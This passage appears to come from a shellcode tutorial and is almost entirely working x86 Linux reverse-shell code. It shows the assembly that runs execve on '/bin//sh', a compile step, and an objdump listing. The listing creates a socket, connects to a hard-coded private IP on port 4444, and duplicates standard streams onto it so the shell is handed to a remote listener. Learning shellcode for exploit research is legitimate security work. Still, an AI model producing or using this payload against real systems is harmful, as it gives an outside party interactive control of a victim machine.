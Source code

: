 ```asm
	; execute a shell ;
	;*****************;


	push edx	; null terminate the string
	push 0x68732f2f	; push hs//
	push 0x6e69622f	; push nib/

	mov ebx, esp	; move null terminated string into register

	mov ecx, edx	; 0x0
	mov al, 0xB	; syscall - execve
	int 0x80	; execve("/bin//sh", NULL, NULL)
```
Compile it:
```shell
./compile.sh reverse_shell
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
```
Check for null bytes:
```shell
objdump -d reverse_shell -M intel

reverse_shell:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:	31 c0                	xor    eax,eax
 8048082:	31 db                	xor    ebx,ebx
 8048084:	31 c9                	xor    ecx,ecx
 8048086:	31 d2                	xor    edx,edx
 8048088:	b0 66                	mov    al,0x66
 804808a:	b3 01                	mov    bl,0x1
 804808c:	51                   	push   ecx
 804808d:	53                   	push   ebx
 804808e:	6a 02                	push   0x2
 8048090:	89 e1                	mov    ecx,esp
 8048092:	cd 80                	int    0x80
 8048094:	89 c7                	mov    edi,eax
 8048096:	b0 66                	mov    al,0x66
 8048098:	43                   	inc    ebx
 8048099:	68 c0 a8 f7 83       	push   0x83f7a8c0
 804809e:	66 68 11 5c          	pushw  0x5c11
 80480a2:	66 53                	push   bx
 80480a4:	43                   	inc    ebx
 80480a5:	89 e1                	mov    ecx,esp
 80480a7:	6a 10                	push   0x10
 80480a9:	51                   	push   ecx
 80480aa:	57                   	push   edi
 80480ab:	89 e1                	mov    ecx,esp
 80480ad:	cd 80                	int    0x80
 80480af:	89 fb                	mov    ebx,edi
 80480b1:	31 c9                	xor    ecx,ecx
 80480b3:	b1 02                	mov    cl,0x2

080480b5 <dup>:
 80480b5:	b0 3f                	mov    al,0x3f
 80480b7:	cd 80                	int    0x80
 80480b9:	49                   	dec    ecx
 80480ba:	79 f9                	jns    80480b5 <dup>
```